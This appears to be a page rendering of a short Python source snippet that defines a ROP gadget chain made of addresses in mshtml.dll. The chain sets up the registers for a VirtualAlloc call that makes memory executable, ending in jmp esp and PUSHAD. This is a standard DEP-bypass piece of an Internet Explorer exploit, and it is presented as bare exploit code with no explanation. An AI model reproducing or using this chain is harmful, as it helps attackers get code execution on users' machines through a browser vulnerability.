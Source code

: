 <table border="0" cellpadding="0" cellspacing="0" class="syntaxhighlighter  python"><tbody><tr><td class="gutter">123456789101112131415161718192021222324252627</td><td class="code"><code class="python plain">rop_gadgets </code><code class="python keyword">=</code> <code class="python plain">[</code><code class="python spaces">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</code><code class="python comments">#[---INFO:gadgets_to_set_esi:---]</code><code class="python spaces">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</code><code class="python value">0x6371b8f5</code><code class="python plain">,&nbsp; </code><code class="python comments"># POP ECX # RETN [mshtml.dll] </code><code class="python spaces">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</code><code class="python value">0x63581314</code><code class="python plain">,&nbsp; </code><code class="python comments"># ptr to &amp;VirtualAlloc() [IAT mshtml.dll]</code><code class="python spaces">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</code><code class="python value">0x6392bf47</code><code class="python plain">,&nbsp; </code><code class="python comments"># MOV EAX,DWORD PTR DS:[ECX] # RETN [mshtml.dll] </code><code class="python spaces">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</code><code class="python value">0x63aa9a60</code><code class="python plain">,&nbsp; </code><code class="python comments"># XCHG EAX,ESI # RETN [mshtml.dll] </code><code class="python spaces">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</code><code class="python comments">#[---INFO:gadgets_to_set_ebp:---]</code><code class="python spaces">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</code><code class="python value">0x635ac41c</code><code class="python plain">,&nbsp; </code><code class="python comments"># POP EBP # RETN [mshtml.dll] </code><code class="python spaces">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</code><code class="python value">0x635ead14</code><code class="python plain">,&nbsp; </code><code class="python comments"># &amp; jmp esp [mshtml.dll]</code><code class="python spaces">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</code><code class="python comments">#[---INFO:gadgets_to_set_ebx:---]</code><code class="python spaces">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</code><code class="python value">0x636895b1</code><code class="python plain">,&nbsp; </code><code class="python comments"># POP EBX # RETN [mshtml.dll] </code><code class="python spaces">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</code><code class="python value">0x00000001</code><code class="python plain">,&nbsp; </code><code class="python comments"># 0x00000001-&gt; ebx</code><code class="python spaces">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</code><code class="python comments">#[---INFO:gadgets_to_set_edx:---]</code><code class="python spaces">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</code><code class="python value">0x637ccce4</code><code class="python plain">,&nbsp; </code><code class="python comments"># POP EDX # RETN [mshtml.dll] </code><code class="python spaces">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</code><code class="python value">0x00001000</code><code class="python plain">,&nbsp; </code><code class="python comments"># 0x00001000-&gt; edx</code><code class="python spaces">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</code><code class="python comments">#[---INFO:gadgets_to_set_ecx:---]</code><code class="python spaces">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</code><code class="python value">0x6358e41f</code><code class="python plain">,&nbsp; </code><code class="python comments"># POP ECX # RETN [mshtml.dll] </code><code class="python spaces">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</code><code class="python value">0x00000040</code><code class="python plain">,&nbsp; </code><code class="python comments"># 0x00000040-&gt; ecx</code><code class="python spaces">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</code><code class="python comments">#[---INFO:gadgets_to_set_edi:---]</code><code class="python spaces">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</code><code class="python value">0x6366cccd</code><code class="python plain">,&nbsp; </code><code class="python comments"># POP EDI # RETN [mshtml.dll] </code><code class="python spaces">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</code><code class="python value">0x63900c06</code><code class="python plain">,&nbsp; </code><code class="python comments"># RETN (ROP NOP) [mshtml.dll]</code><code class="python spaces">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</code><code class="python comments">#[---INFO:gadgets_to_set_eax:---]</code><code class="python spaces">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</code><code class="python value">0x637f3ee3</code><code class="python plain">,&nbsp; </code><code class="python comments"># POP EAX # RETN [mshtml.dll] </code><code class="python spaces">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</code><code class="python value">0x90909090</code><code class="python plain">,&nbsp; </code><code class="python comments"># nop</code><code class="python spaces">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</code><code class="python comments">#[---INFO:pushad:---]</code><code class="python spaces">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</code><code class="python value">0x636bfa7c</code><code class="python plain">,&nbsp; </code><code class="python comments"># PUSHAD # RETN [mshtml.dll] </code><code class="python spaces">&nbsp;&nbsp;&nbsp;&nbsp;</code><code class="python plain">]</code></td></tr></tbody></table>
